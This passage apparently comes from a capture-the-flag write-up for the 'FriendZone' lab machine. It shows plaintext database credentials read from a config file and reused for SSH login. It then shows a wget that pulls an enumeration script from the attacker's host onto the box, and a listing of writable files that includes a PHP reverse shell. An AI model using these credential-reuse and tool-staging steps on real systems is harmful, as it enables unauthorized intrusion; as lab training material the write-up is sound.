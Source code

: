 ```
ls /var/www
admin       friendzoneportal       html             uploads
friendzone  friendzoneportaladmin  mysql_data.conf
```
If I read the file I see some credentials.
```
# cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```
Even though the credentials say they are for a mysql database I decided to try them in ssh. Turns out they worked.
```
# ssh friend@10.10.10.123
The authenticity of host '10.10.10.123 (10.10.10.123)' can't be established.
ECDSA key fingerprint is SHA256:/CZVUU5zAwPEcbKUWZ5tCtCrEemowPRMQo5yRXTWxgw.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.123' (ECDSA) to the list of known hosts.
friend@10.10.10.123's password:
Ilcome to Ubuntu 18.04.1 LTS (GNU/Linux 4.15.0-36-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

You have mail.
Last login: Thu Jan 24 01:20:15 2019 from 10.10.14.3
friend@FriendZone:~$
```
I first decide to run an Enum script to see what it can find. I am going to use a <b>python SimpleHTTPServer</b> to copy the script over from my host machine.
```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```
Then I use <b>wget</b> on the box to download it.
```
friend@FriendZone:/tmp$ wget 10.10.14.21/lse.sh
--2019-09-19 22:07:31--  http://10.10.14.21/lse.sh
Connecting to 10.10.14.21:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 30962 (30K) [text/x-sh]
Saving to: ‘lse.sh’

lse.sh                                             100%[================================================================================================================>]  30.24K  --.-KB/s    in 0.07s   

2019-09-19 22:07:32 (458 KB/s) - ‘lse.sh’ saved [30962/30962]
```
After running the script I will see that there are a few files I have write permssions too. Just take note of these for now
```
[*] fst000 Writable files outside user's home.............................. yes!
---
/etc/sambafiles
/etc/Development
/etc/Development/php-reverse-shell.php
/var/spool/samba
/var/tmp
```